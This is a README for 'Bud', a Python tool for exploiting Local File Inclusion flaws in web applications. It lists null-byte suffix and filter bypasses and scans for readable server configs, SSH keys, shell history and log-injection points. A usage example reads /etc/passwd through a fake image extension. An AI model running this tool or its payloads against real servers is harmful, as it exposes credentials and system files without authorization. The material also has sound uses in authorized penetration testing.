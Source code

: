 # Bud :D
This script automatically extracts user / system files trough Local File Inclusion.

# Current features:
* inject anywhere (parameter + path) (use the * to set the injection point)
* checks absolute path and relative path method
* supports suffix bypass by using a null-byte
* supports filter bypass by using a null-byte + fake extension
* scans for readable configuration files (Apache, MySQL, Nginx, SSHd and DHCPclient)
* scans for readable user files (.ssh files, user profile, bashrc, history file)
* scans for possible log injection (Apache + Nginx)
* gathers some basic system info
* supports all 7392 genders and Python 2.x & 3.x

# How to install
* git clone https://github.com/stefan2200/Bud.git bud
* cd bud
* pip install -r requirements.txt
* python bud.py -hh

# Basic usage
```
$ python bud.py -u "http://vulie.local/image.php?mime=jpg&src=*" -e jpg -i
-u: the url to start with, needs mime set to extension to actually call the vuln function
also both mime and extension must be a valid image format
-e jpg to append a null-byte followed by the fake extension
back-end sees: /etc/passwd\0.jpg
server sees: /etc/passwd
```
*Output of this command is available in results.txt*
```
Usage: bud.py [options]

Options:
  -h, --help            show this help message and exit
  -u URL                The URL to start with including an astrix (*) for the
                        inject point
  -n, --null-byte       Use a null-byte to bypass suffix
  -e ERROR_TEXT, --error=ERROR_TEXT
                        Text to look for when a file is not found, default:
                        auto detect
  -p, --print           Text to look for when a file is not found, default:
                        auto detect
  -i, --ignore          Do not print files that are not found
  -f FAKE_EXTENSION, --fake-ext=FAKE_EXTENSION
                        Use null-byte followed by this fake extension (enables
                        -n)
```